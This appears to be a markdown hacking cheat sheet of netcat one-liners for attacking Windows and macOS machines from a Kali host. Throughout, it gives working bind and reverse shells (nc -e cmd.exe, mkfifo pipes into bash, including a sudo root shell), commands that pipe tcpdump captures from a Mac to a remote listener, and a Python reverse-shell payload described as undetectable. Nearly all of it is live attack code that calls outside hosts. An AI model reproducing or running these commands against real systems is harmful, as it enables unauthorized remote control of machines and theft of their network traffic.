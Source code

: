 Windows:

	nc KALI-IP 8888 -e cmd.exe (connect)
	nc  -lvvp 8888 -e cmd.exe (listen)

### Reverse Shell

Shell:

	mkfifo /tmp/f; nc 192.168.0.110 2222 0</tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f

Bash:

	mkfifo /tmp/f; nc 51.210.47.127 1234 0</tmp/f | /bin/bash -i >/tmp/f 2>&1; rm /tmp/f

Bash: (root)

	mkfifo /tmp/f; nc 51.210.47.127 1234 0</tmp/f | sudo /bin/bash -i >/tmp/f 2>&1; rm /tmp/f

### Netcat & TCPDump

Sniff traffic from a mac with netcat (default on macos) and use tcpdump (default on macos) to send the traffic to Kali then use wireshark to analyse that traffic

#### Data in file

	/usr/sbin/tcpdump -w - | nc KALI_IP 7777 (on mac)
	nc -l -p 7777 | tee /tmp/sniffed_output.pcapng (on kali)

#### Data in real time

On kali:

	mkfifo /tmp/wiretap
	nc -l -p 9999 > /tmp/wiretap
	wireshark -k -i /tmp/wiretap

On mac:

	/usr/sbin/tcpdump -i <interface> -w - | nc 1.2.3.4 9999

### Netcat & Payload

#### Option 1

Create an indetectable payload in python and use it to get a shell on every macos system:

	nc -l -p 8080 (listening on kali)

Create a python payload:

	nano payload.py (and paste that script changing the ip)
	import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("1.2.3.4",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);

Then, just have to execute that script on macos computer.

	sudo python payload.py
